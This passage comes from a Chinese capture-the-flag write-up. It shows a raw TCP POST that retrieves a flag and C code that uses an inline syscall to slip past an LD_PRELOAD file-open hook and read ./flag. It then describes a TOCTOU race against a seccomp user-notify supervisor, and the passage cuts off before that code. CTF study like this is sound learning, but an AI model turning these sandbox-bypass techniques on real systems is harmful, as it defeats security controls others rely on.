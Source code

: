 然后运行即可获得 flag：

```py
s=Custom_TCP_client.tcplink(Raw, '202.38.93.111',18082,debug=5)

token=b"<token>"
s.send(b'POST / HTTP/1.1\r\nHost:202.38.93.111\r\nContent-Length: <token length>\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n')
s.send(token)

print(raw(s.recv()))
```

## 为什么要打开 /flag 😡 - LD_PRELOAD, love!

显而易见，只需要我们手动进行系统调用，那么 `LD_PRELOAD` 就管不着我们。代码如下：

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>

int main(){
	char* filename="./flag";
	int flags=O_RDONLY;
	int mode=0;
	int fd;
	int sys_open=2;
	__asm__(
		"syscall"
		:"=a"(fd)
		:"0"(sys_open),"D"(filename),"S"(flags),"d"(mode)
        : "rcx", "r11", "memory"
	);
	while(1){
		char buffer[64]={};
		int size=read(fd,buffer,64);
		write(1,buffer,size);
		if(size<64){
			break;
		}
	}
	return 0;
}
```

## 为什么要打开 /flag 😡 - 都是 seccomp 的错

题目的代码写明了它修改自 Crate.io 上的 greenhook 库，和 [它的源码](https://www.taoky.moe/greenhook/src/greenhook/lib.rs.html){: target="_blank" rel="noopener"} 对比可以发现 `continue_syscall` 上的 `unsafe` 和注释消失了。而这便提示我们，如果我们打开的路径在 Supervisor 检查和内核处理之间发生变化的话，那么便可以绕过 Supervisor 的检查。可以参考 [这段文档](https://man.archlinux.org/man/seccomp_unotify.2.en#Design_goals;_use_of_SECCOMP_USER_NOTIF_FLAG_CONTINUE){: target="_blank" rel="noopener"}。不过具体实现上需要注意，由于现代 libc 里面的 `pthread_create` 使用的 `clone3` 系统调用并没有被允许，所以我只能手搓一个 `clone` 系统调用来起线程修改文件名。代码如下：
